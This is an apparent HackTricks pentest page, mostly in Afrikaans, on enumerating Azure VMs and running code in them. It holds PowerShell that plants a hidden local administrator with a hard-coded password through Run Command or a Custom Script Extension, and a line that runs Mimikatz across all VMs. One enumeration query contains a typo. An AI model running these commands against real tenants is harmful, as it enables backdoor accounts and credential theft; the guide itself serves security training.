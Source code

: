 # Az - Virtuele Masjiene & Netwerk

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese inligting

[Uit die dokumentasie:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuele masjiene is een van verskeie tipes [op aanvraag, skaalbare rekenaarbronne](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) wat Azure bied. Tipies kies jy 'n virtuele masjien wanneer jy meer beheer oor die rekenaaromgewing nodig het as wat die ander keuses bied. Hierdie artikel gee jou inligting oor wat jy moet oorweeg voordat jy 'n virtuele masjien skep, hoe jy dit skep, en hoe jy dit bestuur.

## Azure Netwerk Inligting

Azure netwerke bevat **verskillende entiteite en maniere om dit te konfigureer.** Jy kan 'n kort **beskrywings,** **voorbeelde** en **enumerasie** opdragte van die verskillende Azure netwerk entiteite vind in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** bied 'n veilige, volledig bestuurde RDP (Remote Desktop Protocol) en SSH (Secure Shell) toegang oplossing oor SSL deur die Azure portaal. Dit is geïntegreer binne 'n Azure Virtuele Netwerk, wat RDP en SSH konnektiwiteit na VM's met privaat IP's moontlik maak, wat die behoefte aan publieke IP's vermy. Dit maak dit 'n veiliger, meer gerieflike alternatief vir tradisionele metodes wat publieke IP-toewysings en NSG-reël konfigurasies vir VM-toegang behels. Ontwikkelaars en IT-personeel kan veilig toegang verkry tot VM's vanaf die Azure portaal met hul webblaaiers, wat die proses vir ontwikkeling en toetsomgewings stroomlyn.

Om al die Azure Bastion Gashere in jou subskripsie te lys, kan jy die volgende opdrag gebruik:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Opname
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Voer opdragte in 'n VM uit**

### **AAD Teken in in VM**

Dit is moontlik om toegang te verleen aan gebruikers wat via AzureAD geverifieer is. Byvoorbeeld, om toegang te probeer verkry tot 'n **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (dit is belangrik om die **e-pos** te gebruik met die azurecorp wat gebruik is wanneer jy probeer in teken) kan jy 'n fout soos hierdie kry:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Volg net **daardie instruksies** deur na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) te gaan en die kode aan te dui, gebruik die e-pos en wagwoord as geloofsbriewe en jy sal in staat wees om via SSH te verbind (as daardie gebruiker genoegsame regte het om dit te doen: `Virtual Machine Administrator Login` of `Virtual Machine User Login` rol).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Voer Aangepaste Skrip Uitbreiding Uit**

Azure virtuele masjiene (VM) uitbreidings is **klein toepassings** wat post-implementering konfigurasie en outomatisering **take** op **Azure VM's** bied. Byvoorbeeld, as 'n virtuele masjien sagteware-installasie, antivirusbeskerming, of die vermoë benodig om 'n skrip binne-in dit uit te voer, kan jy 'n VM-uitbreiding gebruik.

Daarom, as jy toegang het om dit te skryf, kan jy arbitrêre kode uitvoer:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is 'n PowerShell-gereedskap soortgelyk aan Ansible, wat gebruik word om 'n gasheer deur kode op te stel. DSC integreer met Azure, wat die opgelaai van spesifieke konfigurasie-lêers moontlik maak. Hierdie lêers moet aan 'n streng sintaksis voldoen. Opmerklik is dat die DSC-uitbreiding in Azure opdragte kan uitvoer vanaf lêers wat aan sekere opmaakvereistes voldoen, selfs al is die sintaksis nie korrek volgens DSC-standaarde nie, soos in die verskafde figuur getoon.

Die uitvoering van hierdie opdragte word gefasiliteer deur die [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funksie in Az PowerShell. Die vereistes sluit 'n **.PS1** lêer met 'n gedefinieerde funksie in en die lêer moet in 'n **.zip** lêer gecomprimeer word. Alhoewel die sintaksis dalk nie akkuraat is vir DSC nie, sal die kode steeds uitgevoer word. Die uitbreiding sal egter die uitvoeringsstatus as "mislukking" merk, en geen uitvoer van die opdrag sal sigbaar wees nie weens die status wat deur die mislukkingboodskap oorgeskryf word.

### VM Application Definitions

VM Application Definitions stel die herhaalbare implementering van weergawe-toegepaste toepassings op 'n Azure VM moontlik. Hierdie hulpbron ondersteun die implementering en opdatering van toepassings oor VMs. Om dit op te stel, is verskeie stappe nodig, wat opdragte soos **`New-AzGalleryApplication`** en **`New-AzGalleryApplicationVersion`** in Az PowerShell insluit.

Die uitvoering van toepassings of opdragte deur hierdie metode behels die **"VMAppExtension"**, wat outomaties geïnstalleer word wanneer 'n toepassing op 'n VM toegepas word. Die uitbreiding haal die lêer van die gespesifiseerde URI en noem dit presies soos die toepassing, sonder 'n uitbreiding. Om die lêer korrek uit te voer, moet die "ManageActions" veld in die REST API-oproep geconfigureer word om die lêer met die toepaslike uitbreiding te hernoem. Die opstelling van hierdie metode, eens voltooi, sal die struktuur vertoon soos in die verskafde figuur.

Hierdie metode van uitvoering is egter relatief stadig, wat ongeveer 3-4 minute neem om 'n toepassing of opdrag uit te voer. Die lêers wat met hierdie proses verband hou, word in spesifieke gidse gestoor (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` vir die toepassing kopie en `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` vir die uitvoeringsstatus).

Albei tegnieke bied unieke maniere om opdragte uit te voer en toepassings in Azure-omgewings te implementeer, elk met sy eie stel vereistes, stappe en oorwegings.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) is 'n kenmerk in Azure wat Runbooks, geconfigureer in 'n Automatiseringsrekening, toelaat om op 'n Azure Virtuele Masjien (VM) wat deel uitmaak van die aangewese HWG, uitgevoer te word. Hierdie uitvoering word gefasiliteer deur 'n uitbreiding wat op die VM geïnstalleer is, wat die Runbook-kode op die VM implementeer. 'n Belangrike aspek van hierdie proses is dat die werklike akrediteer nie 'n faktor in uitvoering is nie omdat die kode met verhoogde regte loop, spesifiek as **SYSTEM** of root, soos in die verskafde figuur geïllustreer.

'n Belangrike detail vir diegene wat Windows 10 VMs gebruik, is die noodsaaklikheid om die PowerShell-weergawe vir die Runbook spesifiek aan te dui. Dit moet ingestel word om as PowerShell Weergawe 5.1 te loop in plaas van 7.1. Hierdie vereiste spruit voort uit die feit dat PowerShell 7.1 nie standaard op hierdie VMs geïnstalleer is nie, wat lei tot 'n mislukking in skripuitvoering as weergawe 7.1 gespesifiseer word.

Hierdie kenmerk van Azure bied 'n robuuste metode vir die outomatisering en bestuur van take oor hibriede omgewings, wat sentraliseerde bestuur en uitvoering van take op Azure VMs moontlik maak.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
